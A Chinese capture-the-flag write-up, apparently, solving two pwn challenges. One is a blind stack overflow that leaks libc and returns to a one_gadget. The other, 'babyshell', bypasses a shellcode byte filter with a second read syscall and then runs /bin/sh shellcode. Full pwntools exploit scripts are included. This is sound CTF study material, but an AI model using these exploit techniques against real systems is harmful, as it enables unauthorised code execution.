 ```
```

通过爆破可以知道得到有几个地址可以泄露栈上内容的，即可以得到libc的，再而如果能同时泄露并能返回到read让我们再读入一次就能成功getshell了。之后我们得到两个比较特殊的地址分别是0x400520和0x400776，他们两个相差距离，根据经验和打印的内容，可以猜测因为rsi没有改变，而rdx(打印长度)为0x100，刚好就是read的时候的长度，所以0x400520可能是write或者是某个打印函数的plt表，0x400776则是在程序段中code段的call调用函数，然后做了一些尝试，如下构造可以泄露并二次输入，最后第二次输入的时候直接one_gadget即可。

```
p = remote("34.92.37.22",10000)
p.recv()
payload = "a"*40+p64(0x400520)+p64(0x400776)*17
p.send(payload)
p.recvuntil("aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa")
data1 = p.recvn(0xa8)
data2 = u64(p.recvn(8))
print hex(data2)
libc_base = data2 - 0x5f1168
one_shot = libc_base + 0xf02a4

sleep(1)
p.recvuntil("elcome to this blind pwn!\n")
payload = "b"*40 + p64(one_shot) + p64(0)*0x30
p.send(payload)

p.interactive()
```

### babyshell 

题目mmap分配了一段rwx权限的内存块出来，并可以读取0x100的内容(shellcode)，最后执行该buf的内容。在执行之前会检查我们的shellcode是否满足他的要求，即要求用题目给出的机器码组成shellcode来执行，其中过滤了“/”，“b”还有“\x48”等重要的机器码。要求使用的机器码如下：

```
[0x5A, 0x5A, 0x4A, 0x20, 0x6C, 0x6F, 0x76, 0x65, 0x73, 0x20, 0x73, 0x68, 0x65, 0x6C, 0x6C, 0x5F, 0x63, 0x6F, 0x64, 0x65, 0x2C, 0x61, 0x6E, 0x64, 0x20, 0x68, 0x65, 0x72, 0x65, 0x20, 0x69, 0x73, 0x20, 0x61, 0x20, 0x67, 0x69, 0x66, 0x74, 0x3A, 0x0F, 0x05, 0x20, 0x65, 0x6E, 0x6A, 0x6F, 0x79, 0x20, 0x69, 0x74, 0x21, 0x0A]
```

但是我们有push有pop还有syscall，就能控制一些寄存器，但是我们不能控制rax。然后因为刚程序中调用完read，我们就可以先执行read的syscall，再调用一次读入，好处在于第二次读入的时候就不需要做检查，即绕过的题目的要求，这样我们第二次读入的东西就没有限制了。就可以直接getshell。

详细代码如下：

```
#!/usr/bin/env python
# coding=utf-8
from pwn import *


p = process("shellcode")
#p = remote("34.92.37.22",10002)
shellcode = "\x6a\x79\x5a\x6a\x00\x5f\x0f\x05"
gdb.attach(p," b *0x4008cb")
print shellcode.encode("hex")
p.recv()

p.send(shellcode)
pause()
sleep(0.1)
payload = "/bin/sh\x00" + "\x56\x5f\x6a\x00\x5e\x6a\x00\x5a\x0f\x05"
payload = payload.ljust(0x3b,"\x00")
p.send(payload)
p.interactive()
```
